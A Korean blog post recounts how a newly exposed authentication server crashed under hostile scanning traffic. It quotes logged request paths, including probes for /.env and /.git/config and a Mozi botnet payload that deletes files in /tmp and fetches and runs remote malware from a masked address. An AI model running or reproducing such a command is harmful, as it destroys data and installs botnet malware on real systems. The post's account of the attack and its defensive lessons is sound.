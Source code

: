 특히 해커맨, 그들은 우리의 IP를 언제든지 알고 있다. 오늘은 외부 접속이 가능하도록 공개된 서버를 구축하는 중 내가 겪었던 일에 대해 코멘트를 달아보고자 한다. 쉘 환경에서 명령어를 입력한다던가, 코드를 수정한다던가, 운영체제의 설정 파일을 건드리는 내용은 아니다. 좀 더 이론 혹은 지침에 가까운 내용을 다뤄볼 계획이다. 

### 작년 이맘 때에...

당시 상황에 대해 먼저 정리해 보자. 크게 5개 요소로 이루어진 서비스를 구축해야 하는 상황이었다. 그중 하나는 사용자 로컬 PC에서 동작해야 하는 에이전트 프로그램이기 때문에 제외하고, 서버 인스턴스를 4개 제공받았다. 그림으로 그려볼까.

<p class="center">
  <img src="https://i.postimg.cc/L4BGvRNM/briefarch.png" alt="대략적"/>
</p>

사실 각 서버 프로그램들을 하나의 인스턴스 안에 세팅해도 됐지만, 어쩌다 보니 누추한 서비스에 비해 과분한 대접을 받게 되었다. 나는 각 인스턴스마다 필요한 포트를 담당자분께 요청하고, 외부에서 접근이 가능하도록 만들었다. 위 구성에 기반해 내가 생각한 서비스의 접근 형태는 다음과 같았다.

<p class="center">
  <img src="https://i.postimg.cc/rpzLPpQH/first.png" alt="뭔가 이상하겠지만 그래도 참아"/>
</p>

비록 당시 각 구성요소들이 어떤 코드와 설정으로 구현되어 있었는지는 잘 몰랐지만, 이렇게 가정하고 서비스를 구축해 어쨌든 잘 동작하는 것을 확인하였다. 그리고 몇 주 뒤, <strong>인증 서버가 사망하게 되는데...</strong>

### 부검

로그인이 안된다는 연락을 받은 나는 인증 서버의 인스턴스에 접속해 서버가 죽은 것을 발견하였다. 로그엔 서버의 단말마가 이렇게 기록되어 있었다.

<p class="center rounded-edge-16">
  <img src="https://i.postimg.cc/3JV8zpBV/image.png" alt="단말마"/>
</p>

<p class="center rounded-edge-16">
  <img src="https://i.postimg.cc/mgsB0ZwR/image.png" alt="단말마2"/>
  <br/>
  조금 개선된 버전
</p>

수많은 404 에러의 향연, 애초에 제한된 사용자에게만 공개될 서비스였는데 비이상적으로 많은 요청 실패가 기록되어 있다. 게다가 요청 경로들의 면면들이 모두 흉악하다.

- `/.env`
- `/.git/config`
- `/test`
- `/Api/GetCmd.aspx`
- `/shell?cd+/tmp;rm+-rf+*;wget+http://xx.xx.xx.xx:xxxxx/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws`

다행히 정보가 나간 정황은 보이지 않았다. 애초에 그럴 정보가 들어있지도 않은 상태였고. 감당할 수 없는 요청이 들어와 서버 프로세스가 사망했거나 인스턴스가 재부팅되었을 것이다. 3개의 서버 중 한 서버에만 공격이 발견되었는데, 때마침 그 서버의 이름은 XXX-<strong>auth</strong>. 즉 로그인/유저정보 관리 등을 수행하는 인증 서버였다. 누가 봐도 악의적인 공격.

<p class="center">
  <img src="https://i.postimg.cc/K80c5nhw/image.png" alt="해커맨"/>
  <br/>
  "당신의 IP를 언제든지 알고 있음"
</p>
